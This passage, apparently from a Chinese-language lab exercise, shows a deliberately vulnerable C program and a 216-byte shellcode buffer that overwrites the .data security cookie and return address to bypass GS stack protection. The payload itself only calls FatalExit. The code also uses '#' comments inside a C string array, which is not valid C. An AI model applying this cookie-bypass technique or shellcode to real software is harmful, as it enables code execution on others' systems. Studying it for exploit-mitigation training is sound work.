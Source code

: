 ```
#include <string.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90"		# ./data Security Cookie
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\xf4\x6f\x82\x90"		# 0x90909090 xor ebp
"\x90\x90\x90\x90"
"\x94\xfe\x12\x00";		# shellcode入口地址

void test(char *s, int i, char *src)
{
	char dest[200];
	if(i<0x9995)
	{
		char *buf=s+i;
		*buf=*src;
		*(buf+1)=*(src+1);
		*(buf+2)=*(src+2);
		*(buf+3)=*(src+3);
		strcpy(dest, src);
	}
}

int main()
{
	char *str=(char *)malloc(0x10000);
	//__asm int 3
	test(str,0xffff2fb8,shellcode);

	return 0;
}
```
将源码如上修改, 构造216 byte的shellcode, 1~4 byte填充"\x90\x90\x90\x90"写入.data, 
205~208 byte填充"\xf4\x6f\x82\x90", 213~216覆盖为shellcode的入口地址, pwn~
